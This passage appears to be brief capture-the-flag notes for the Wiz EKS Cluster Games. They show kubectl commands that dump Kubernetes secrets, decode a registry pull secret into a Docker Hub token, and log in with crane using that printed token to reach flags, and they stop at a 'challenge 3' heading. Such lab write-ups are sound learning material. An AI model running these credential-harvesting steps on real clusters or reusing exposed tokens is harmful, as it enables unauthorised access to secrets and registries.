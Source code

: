 # WizEKS
https://eksclustergames.com/

1. challenge:
kubectl get secrets -o yaml
wiz_eks_challenges{omg_overprivileged_secrets}



2. challenge:
kubectl describe pod database-pod-2c9b3a4e
  Image: eksclustergames/base_ext_image

kubectl get pod database-pod-2c9b3a4e -o yaml
   imagePullSecrets:
      - name: registry-pull-secrets-780bab1d

kubectl get secret registry-pull-secrets-780bab1d -o jsonpath="{.data.\.dockerconfigjson}" | base64 --decode
  base64 decode
    -> eksclustergames:dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo

crane auth login docker.io -u eksclustergames -p dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo
crane config eksclustergames/base_ext_image
  ->wiz_eks_challenge{nothing_can_be_said_to_be_certain_except_death_taxes_and_the_exisitense_of_misconfigured_imagepullsecret}

3. challenge
